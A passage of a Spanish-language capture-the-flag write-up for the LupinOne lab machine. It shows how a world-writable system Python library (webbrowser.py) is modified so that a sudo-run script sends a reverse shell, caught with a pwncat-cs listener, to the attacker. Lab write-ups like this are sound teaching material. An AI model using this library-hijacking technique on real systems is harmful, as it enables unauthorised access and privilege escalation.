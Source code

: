 Buscando sobre la dependencia de `webbrowser`  acabé encontrando una cosa interesante.

Y es que tenemos permiso de escritura, por lo cual podemos modificar esta librería e inyectar un código malicioso.
```console
icex64@LupinOne:/home/arsene$ find / -type f -name "webbrowser*" 2>/dev/null
/usr/lib/python3.9/webbrowser.py
/usr/lib/python3.9/__pycache__/webbrowser.cpython-39.pyc
icex64@LupinOne:/home/arsene$ ls -la /usr/lib/python3.9/webbrowser.py
-rwxrwxrwx 1 root root 24087 Oct  4  2021 /usr/lib/python3.9/webbrowser.py
```

Vamos a añadir este código, para que según inicialice esta dependencia se envíe una reverse shell a mi máquina de atacante por el puerto 443.
![Write-up Image](images/Screenshot_16.png)

Ahora con `pwncat-cs` me voy a poner en escucha por el puerto 443.

```console
$ sudo pwncat-cs -lp 443

[12:32:28] Welcome to pwncat 🐈!                                           __main__.py:164
bound to 0.0.0.0:443 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

```

Ejecuto como `arsene` el script.
```console
icex64@LupinOne:/home/arsene$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
stty: 'standard input': Inappropriate ioctl for device
```

Y podemos ver que ganamos acceso como `arsene`
```console
(remote) arsene@LupinOne:/home/arsene$ id
uid=1000(arsene) gid=1000(arsene) groups=1000(arsene),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```
